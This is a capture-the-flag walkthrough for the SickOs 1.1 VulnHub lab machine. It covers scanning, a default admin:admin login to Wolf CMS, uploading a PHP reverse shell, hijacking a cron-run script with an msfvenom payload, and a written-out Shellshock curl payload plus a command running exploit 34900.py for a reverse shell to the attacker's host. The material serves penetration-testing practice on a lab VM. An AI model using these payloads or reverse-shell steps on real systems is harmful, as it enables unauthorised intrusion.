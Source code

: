 ## SickOs 1.1 VulnHub VM walkthrough

SickOs 1.1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/sickos-11,132/

```
This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. 
This vm is very similar to labs I faced in OSCP. 
The objective being to compromise the network/machine and gain Administrative/root privileges on them.
```

## Solution

To find IP address of VM:

#### Sudo Netdiscover

![](Assets/1.png)

> IP address: 192.168.1.11

#### Port scan: Nmap -sC -sV -Pn -p- -A 192.168.1.11
![](Assets/2.png)

> Squid HTTP Proxy is running on port 3128 > Firefox Web proxy 192.168.1.11:3128 > Squid web server
 
#### Nikto: Nikto -h 192.168.1.11 -useproxy 192.168.1.11:3128 
![](Assets/3.png)

> /cgi-bin/status > vulnerable to `ShellShock`

#### Burp proxy 192.168.1.11 : 3128  >> 192.168.1.11/robots.txt
![](Assets/4.png)

> `Wolfcms` directory

#### Login page >> admin:admin
![](Assets/5.png)

> Logged in

#### Add IP and port to php Reverse shell
![](Assets/6.png)

> Added my own IP and port

#### Shell upload
![](Assets/7.png)

> Uploaded php reverse shell

#### Nc -nvlp 4444 & visited url of shell
![](Assets/8.png)

> got reverse shell

#### Visit /var/www/
![](Assets/9.png)

> `Wolfcms` directory and Read n Write permissions for `connect.py`

### Method 1: Using connect.py

#### Visit cron.d
![](Assets/10.png)

> Automated connect.py

#### Create payload with msfvenum 
![](Assets/11.png)

#### Echo payload to connect.py
![](Assets/12.png)

#### Nc -nvlp 7777
![](Assets/13.png)

> Got root

### Method 2: Using config.php

#### Config.php
![](Assets/14.png)

> Got password john@123

![](Assets/15.png)

> john@123 password worked >> Got shell

### Method 3: Get a shell using shellshock

curl --proxy 192.168.1.11:3128 http://192.168.1.11/cgi-bin/status -H "User-Agent: () { pwned;}; echo 'Content-Type: text/plain'; echo; /usr/bin/whoami; exit"

Download 34900.py

Reverse shell: python 34900.py payload=reverse rhost=192.168.1.11 lhost=192.168.1.7 lport=1234 proxy=192.168.1.11:3128 pages=/cgi-bin/status


config.php

sudo


